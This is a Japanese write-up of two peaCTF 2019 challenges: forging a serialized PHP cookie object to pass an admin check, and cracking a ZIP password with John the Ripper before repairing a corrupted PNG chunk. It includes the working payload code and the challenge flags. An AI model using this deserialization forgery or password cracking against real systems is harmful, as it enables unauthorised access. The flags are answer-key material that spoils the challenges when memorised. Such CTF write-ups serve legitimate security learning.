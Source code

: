 ```yaml
---
layout: post
title: peaCTF Round 1 の write-up
categories: [ctf]
date: 2019-07-29 21:00:00 +0900
---
```


7 月 22 日から 7 月 28 日にかけて開催された [peaCTF Round 1](https://peactf.com/) に、チーム zer0pts として参加しました。最終的にチームで 5100 点を獲得し、順位は得点 540 チーム中 27 位でした。うち、私は 2 問を解いて 1400 点を入れました。

以下、私が解いた問題の writeup です。

## Web Exploitation
### Educated Guess (600)
> There is a secured system running at http://(省略)/query.php. You have obtained the source code.

以下のように `query.php` のソースコードも添付されていました。

```php
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
<?php

// https://www.php-fig.org/psr/psr-4/

function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');

if (!empty($_COOKIE['user'])) {
    $user = unserialize($_COOKIE['user']);

    if ($user->is_admin()) {
        echo file_get_contents('../flag');
    } else {
        http_response_code(403);
        echo "Permission Denied";
    }
} else {
    echo "Not logged in.";
}
?>
</body>
</html>
```

Cookie に入っている文字列を `unserialize` し、その結果生成されたオブジェクトの `is_admin` メソッドを呼んで真と評価される値が返ってくればフラグが表示されるようです。

[PHP のドキュメント](https://www.php.net/manual/ja/)で `is_admin` というメソッドを持つクラスを探してみましたが見つかりません。ビルトインのクラス以外を使う必要がありそうです。

ここでソースコードを見直してみましょう。

```php
<?php
︙
function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');
```

存在していないクラスのインスタンスが復元されようとした場合、`(クラス名).class.php` を自動的に読み込むようです。

適当に探してみると、`$user` という変数名から推測して `User.class.php` というファイルを見つけることができました。試しに `User` というクラスのインスタンスが復元されるような文字列を作ってみましょう。

```php
<?php
class User {}
$o = new User;
echo urlencode(serialize($o));
```

これを実行して出力された文字列を Cookie にセットし、リロードすると `Permission Denied` と表示されました。まだ何か足りないようです。

とりあえず、`admin` というそれっぽいプロパティにそれっぽい値を入れてみます。

```php
<?php
class User {}
$o = new User;
$o->admin = true;
echo urlencode(serialize($o));
```

これを実行して出力された文字列を Cookie にセットし、リロードするとフラグが表示されました。

```
flag{peactf_follow_conventions_3b2a868a8a16589704dc755276fb11fd}
```

## Forensics
### Song of My People (800)
> A specific soundcloud rapper needs help getting into his password protected zipped file directory. The initial password is in the title. You just have to know your memes, and pick the right instrument! We were on the fence on giving you an image to go along with this puzzle, but the loincloth was too scandalous. Alternatively, you could bruteforce.
> 
> 添付ファイル: song_of_my_people.zip

暗号化された ZIP ファイルが与えられました。中には `a lengthy issue.png`、`README.txt`、よくわからない mp3 ファイルの 3 つのファイルが入っているようです。

John the Ripper に投げてみましょう。

```
$ zip2john song_of_my_people.zip > song_of_my_people.john
$ john song_of_my_people.john --wordlist=/usr/share/dict/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
︙
violin           (song_of_my_people.zip)
```

`violin` がパスワードのようです。ZIP ファイルを展開して `a lengthy issue.png` を開こうとしてみましたが、画像に問題があるようで正常に表示できません。

`pngcheck` で確認してみましょう。

```
$ pngcheck a\ lengthy\ issue.png 
a lengthy issue.png  invalid number of PLTE entries (4.04167e+08)
ERROR: a lengthy issue.png
```

`PLTE` チャンクの長さがおかしいようです。バイナリエディタで開いてみると、チャンク名の前の 4 バイトが `HELP` と明らかにおかしな内容になっていました。次の `pHYs` チャンクまでの距離などを確認して `00 00 02 68` に直すと、正常に表示できるようになりました。

画像には以下のような文章が書かれていました。

```
GREAT WORK FIXING THE CHECKSUM! This should give you the FLAG. Ex: {27_thousand_spaces_3092}

https://soundcloud.com/lil-redacted/live-concert-audio

{(how many)_thousand_spaces, or seats, were left at the most recent concert of [redacted]? + _(page number)} of the concert archive

54 68 65 20 4c 69 72 61 72 79 20 6f 66 20 42 61 62 65 6c 3a 0a 28 77 69 74 68 20 6e 65 77 20 61 64 64 69 74 69 6f 6e 20 6f 66 20 61 6c 6c 20 74 69 65 20 70 6f 73 73 69 62 6c 65 20 64 69 73 73 20 74 72 61 63 6b 73 20 74 6f 20 65 76 65 72 20 62 65 20 6d 61 64 65 20 61 6e 64 20 65 76 65 72 20 63 6f 75 6c 64 20 62 65 20 6d 61 64 65 29
```

`{???_thousand_spaces_???}` の 2 箇所の `???` を埋めればよいようです。

書かれている SoundCloud のページにアクセスすると以下のような説明がありました。

> this concert is part of a larger tour that is archived completely in some kind of hexagonal library. The archive is named between "maybe" and a "repeat". Should be on the 371st page.
> 
> I would give you an mp3 of this audio, but I don't know how to navigate those sketchy websites.

後ろの `???` は `371` でよさそうです。

前の `???` はよくわかりませんが、`1` から順番に試していくと `3` で通りました。

```
{3_thousand_spaces_371}
```